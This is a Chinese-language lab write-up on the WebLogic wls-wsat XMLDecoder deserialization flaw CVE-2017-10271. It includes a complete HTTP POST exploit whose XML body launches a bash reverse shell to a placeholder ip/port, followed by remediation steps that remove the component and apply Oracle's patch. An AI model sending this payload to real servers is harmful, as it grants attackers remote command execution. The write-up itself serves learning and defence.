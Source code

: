 # Weblogic wls-wsat XMLDecoder 反序列化漏洞（CVE-2017-10271）by [xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

CVE-2017-10271漏洞产生的原因大致是Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限

## 二，影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

## 三，利用流程

访问地址： `10.10.11.20:51054`

名称：CVE-2017-10271

访问地址`/wls-wsat/CoordinatorPortType11`发现可能存在漏洞

![1](./1.jpg)

发送数据包

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 10.10.11.20:51054
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![2](./2.jpg)

执行命令获得flag

![3](./3.jpg)

通关！

## 四，修复方案

1.临时解决方案

根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。
根据实际环境路径，删除WebLogic wls-wsat组件：
```
rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f   /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
重启Weblogic域控制器服务:

```
DOMAIN_NAME/bin/stopWeblogic.sh           #停止服务
DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
```
删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2.官方补丁修复

前往Oracle官网下载10月份所提供的安全补丁

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

升级过程可参考：http://blog.csdn.net/qqlifu/article/details/49423839
